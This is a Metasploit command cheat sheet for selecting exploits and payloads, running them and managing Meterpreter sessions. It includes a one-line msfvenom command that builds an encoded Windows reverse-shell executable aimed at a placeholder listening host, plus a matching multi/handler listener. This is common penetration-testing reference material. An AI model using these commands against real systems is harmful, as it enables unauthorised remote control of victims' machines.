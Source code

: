 # **Metasploit Commands**

**To Display All Exploits Related to a Specific Vulnerability**
```plaintext
search exploit <vulnerability>
```

**To Choose a Specific Exploit for Use**
```plaintext
use exploit/<exploit_name>
```

**To Review Current Configuration Settings of the Selected Exploit**
```plaintext
options
```

**To List Payloads Compatible With the Chosen Exploit**
```plaintext
show payloads
```

**To Assign a Specific Payload to the Current Exploit**
```plaintext
set PAYLOAD <payload_name>
```

**To Configure an Option for the Active Exploit or Payload**
```plaintext
set <option_name> <value>
```

**To Execute the Configured Exploit**
```plaintext
run
```
or
```plaintext
exploit
```

**Command to Generate a Windows Payload in One Line**
```plaintext
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<listening_host> LPORT=<listening_port> -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /path/to/payload.exe
```

**One-Line Command to Initiate a Meterpreter Session**
```plaintext
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <listening_host>; set LPORT <listening_port>; exploit;"
```

**Additional Commands for Enhanced Metasploit Usage**

**To Display Information About a Specific Module**
```plaintext
info
```

**To Set Up a Multi-Handler for Receiving Reverse Connections**
```plaintext
use exploit/multi/handler
```

**To Save the Current Configuration to a File for Later Use**
```plaintext
save
```

**To Load a Previously Saved Configuration**
```plaintext
load <file_name>
```

**To Background a Current Session Without Closing It**
```plaintext
background
```

**To List All Active Sessions**
```plaintext
sessions
```

**To Interact With a Specific Meterpreter Session**
```plaintext
sessions -i <session_number>
```

**To Display the Metasploit Version and Environment Information**
```plaintext
version
```
